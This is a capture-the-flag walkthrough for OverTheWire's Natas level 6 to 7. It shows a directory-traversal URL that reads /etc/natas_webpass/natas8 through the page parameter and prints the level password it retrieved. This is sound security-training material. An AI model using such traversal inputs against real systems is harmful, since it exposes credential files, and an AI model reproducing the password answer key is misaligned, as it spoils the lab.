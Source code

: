 # Level 6 -> 7
Login to natas. When you view page source, you will see password is in `etc/natas_webpass/natas8`.
udging by the hint, I assume this is a Directory Traversal Attack.

If we click on Home our URL should display http://natas7.natas.labs.overthewire.org/index.php?page=home. Let’s go ahead and remove home and add /etc/natas_webpass/natas8. The URL should look like so: http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8 .
The Password for next level is `a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB `.
